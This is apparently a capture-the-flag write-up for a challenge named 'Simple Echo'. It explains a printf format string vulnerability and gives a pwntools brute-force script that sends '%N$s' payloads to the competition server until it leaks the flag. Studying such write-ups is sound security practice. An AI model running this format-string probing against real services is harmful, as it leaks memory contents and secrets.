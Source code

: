 # Simple Echo

> A simple program to echo back user input. What could possibly go wrong?

1. Using GDB, look at `main` function. It simply takes a string as input and `printf`s it. Clearly a format string vulnerability.
2. Brute force:

    ```python
    from pwn import *

    for i in range(1, 100):
        try:
            p = remote('simple-echo.2024-bq.ctfcompetition.com', 1337)
            p.recvuntil(b'Type input to be echoed: ')
            
            payload = f'%{i}$s'.encode()

            p.sendline(payload)
            sleep(2)
            p.recvuntil(b'Echoed output: \n')
            op = p.recvline()
            print(op, "index:",i)
            p.close()
        except:
            pass
    ```

    We get the flag at index **51**
